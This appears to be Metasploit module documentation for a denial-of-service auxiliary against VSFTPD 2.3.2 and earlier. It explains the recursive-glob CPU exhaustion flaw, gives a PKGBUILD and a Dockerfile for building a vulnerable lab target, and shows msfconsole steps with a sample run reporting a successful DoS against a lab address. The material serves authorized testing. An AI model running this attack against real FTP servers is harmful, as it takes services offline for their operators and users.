 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.2 and below. The
vulnerability has been directly tested on versions 2.3.0, 2.3.1, and 2.3.2 and have
shown success.

VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Options

### FTPUSER
The username used to log into the FTP server

### FTPPASS
The password used to log into the FTP server

### Install on Arch Linux

The software has been tested on multiple versions using arch linux. To create an
installable package for the vulnerable software to test, follow these instructions.

1. Clone the source repository using `git clone https://gitlab.archlinux.org/archlinux/packaging/packages/vsftpd.git`
2. Replace the contents of the PKGBUILD with this

```pkgbuild
pkgname=vsftpd
pkgver=2.3.2
pkgrel=1
pkgdesc='Very Secure FTP daemon'
url='https://security.appspot.com/vsftpd.html'
arch=('x86_64')
license=('GPL2')
depends=('glibc' 'openssl' 'libcap' 'pam' 'libnsl')
optdepends=('logrotate')
backup=('etc/vsftpd.conf'
        'etc/xinetd.d/vsftpd'
        "etc/logrotate.d/vsftpd")
source=(https://security.appspot.com/downloads/${pkgname}-${pkgver}.tar.gz
        vsftpd-ssl.socket
        vsftpd.socket
        vsftpd.service
        vsftpd@.service
        vsftpd-ssl.service
        vsftpd-ssl@.service)
sha256sums=('SKIP'
            'd5185e48fffc6253499a55e0fe0f90a3424fc639640af11a9d38df33fb145afe'
            '9fdbfd2ec0207170371ca3cf2b0ddca2dc2fe3d062e5792e0d3e51474c3198c9'
            '0597e571718ba0f4dc4b32a4ddd148103758c48c7d65dcb8bbedafc9e810e83d'
            'd7b8e4827d4f6bafcbf52f9d2d7380958c7b08bb3f757806aa89d4bc06c9671c'
            'b88a50fc68b3bf746d13c9a777df77791cd3eac6eb7c2df655418071c2adf422'
            '4a55c2468b08d858f71bacf1f4885847bec8e548b0e92088068d9bdd3884af84')

prepare() {
  cd ${pkgname}-${pkgver}
  # build-time config
  sed -e 's|^#undef VSF_BUILD_SSL$|#define VSF_BUILD_SSL|' -i builddefs.h
  sed -e 's|/usr/share/empty|/var/empty|g' -i tunables.c vsftpd.conf.5 INSTALL
  sed -e 's|/usr/local/sbin/vsftpd|/usr/bin/vsftpd|' -i EXAMPLE/INTERNET_SITE/${pkgname}.xinetd

  # fix linking to openssl 1.1
  sed -e 's|SSL_library_init|SSL_CTX_new|' -i vsf_findlibs.sh
}

build() {
  cd ${pkgname}-${pkgver}
  make LINK='' CFLAGS="${CFLAGS} ${CPPFLAGS}" LDFLAGS="${LDFLAGS}"
}

package() {
  cd ${pkgname}-${pkgver}

  install -Dm 755 ${pkgname} -t "${pkgdir}/usr/bin"
  install -dm 755 "${pkgdir}/var/empty"
  install -Dm 644 "${srcdir}"/{*.service,*.socket} -t "${pkgdir}/usr/lib/systemd/system"

  install -Dm 644 ${pkgname}.conf -t "${pkgdir}/etc"
  install -Dm 644 EXAMPLE/INTERNET_SITE/${pkgname}.xinetd "${pkgdir}/etc/xinetd.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.log "${pkgdir}/etc/logrotate.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.pam "${pkgdir}/etc/pam.d/${pkgname}"

  install -Dm 644 ${pkgname}.8 -t "${pkgdir}/usr/share/man/man8"
  install -Dm 644 ${pkgname}.conf.5 -t "${pkgdir}/usr/share/man/man5"
  install -Dm 644 BENCHMARKS BUGS Changelog FAQ INSTALL README README.ssl REFS \
    REWARD SPEED TODO TUNING -t "${pkgdir}/usr/share/doc/${pkgname}"
}
```

3. If you want to test a different version, Change the version variable to your
desired version.
4. Run `makepkg -i` to build the package and automatically install it.
5. Start the systemd service with `sudo systemctl start vsftpd`

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf6 > use auxiliary/dos/ftp/vsftpd_232
msf6 auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf6 auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf6 auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking
htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
